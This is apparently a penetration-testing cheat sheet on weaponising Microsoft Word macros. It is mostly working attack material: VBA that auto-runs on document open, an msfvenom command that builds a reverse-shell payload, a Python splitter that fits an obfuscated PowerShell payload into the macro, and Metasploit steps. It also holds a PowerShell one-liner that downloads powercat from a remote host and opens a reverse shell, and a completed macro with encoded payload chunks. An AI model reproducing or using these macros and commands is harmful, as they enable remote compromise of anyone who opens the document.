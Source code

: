 ## Manual Method

```
Open Word Document → View → Macros → Macro Name: MyMacro → Macros in: Document(1) → Create
Save it in only .docm or .doc format .docx is not supported.

# Paste this Snippet in Macro.
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String

    CreateObject("Wscript.Shell").Run Str
End Sub
# Save as Word 97-2003 Document Template
```

One more step is having Split Powershell one-liner for the reverse shell, so we have 3 step process:

```
1) msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<port> -f hta-psh -o evil.hta
# read evil.hta and copy the powershell.exe string 

2) Put the Powershell script in a Python code below for splitting
str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC....."

n = 50

for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'

3) Copy the split and paste it in Macro (below Dim str and above CreateObject)
```

## Metasploit

1. Follow the First 4 Steps with the below's reference: [https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/fileformat/office_word_macro.md](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/fileformat/office_word_macro.md)
2. got the doc.m file? convert it to a doc
		Usuall, Word files containing macros use the .docm extension. However, it's possible to rename the file by changing the file extension and still keep their macro executing capabilities.
    
3. Upload the doc file to the attacker’s FTP or somewhere with the payload

```
use exploit/multi/fileformat/office_word_macro
set payload windows/shell_reverse_tcp
set lhost and lport
Open a listener and pop up a reverse shell.
```


## Macro Example

```
If possible do a powershell reverse shell base 64 encoded:

IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell


A for-loop iterates over the PowerShell command and prints each chunk in the correct format for our macro. 

str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..." n = 50 
for i in range(0, len(str), n): 
	print("Str = Str + " + '"' + str[i:i+n] + '"')

Sub AutoOpen() 
	MyMacro 
End Sub 
Sub Document_Open() 
	MyMacro 
End Sub 
Sub MyMacro() 
	Dim Str As String 
	Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU" 
	Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd" 
	Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB" ... 
	Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA" 
	Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA" 
	Str = Str + "A== " 
	CreateObject("Wscript.Shell").Run Str 
End Sub
```